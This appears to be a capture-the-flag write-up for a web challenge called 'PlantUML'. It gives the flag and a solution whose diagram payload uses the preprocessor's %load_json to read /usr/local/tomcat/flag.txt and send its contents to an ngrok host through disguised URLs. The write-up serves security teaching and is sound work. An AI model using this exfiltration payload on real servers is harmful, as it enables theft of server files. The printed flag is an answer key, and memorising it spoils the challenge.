 # PlantUML

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{f1n4lly_y0u_SEE_th3_fl4g_94754d0abb89e4cf0a7f1c494dbb9d2c}`

## Description

I don't actually know how to draw UML please help

## Difficulty

Easy/Medium

## Solution

RTFM: https://plantuml.com/preprocessing

plus some source code review

1. Host a `dummy.json` on your own server containing valid JSON.
2. Load the following diagram on PlantUML:

```
@startuml
!$str = %load_json("/usr/local/tomcat/flag.txt")
!$list = %splitstr($str, " ")
!foreach $item in $list
  Alice->Bob: %load_json("https://plantuml.com@ad58-175-156-124-45.ngrok-free.app/dummy.json?" + $item)
!endfor
@enduml
```

3. Profit

![](./sol.png)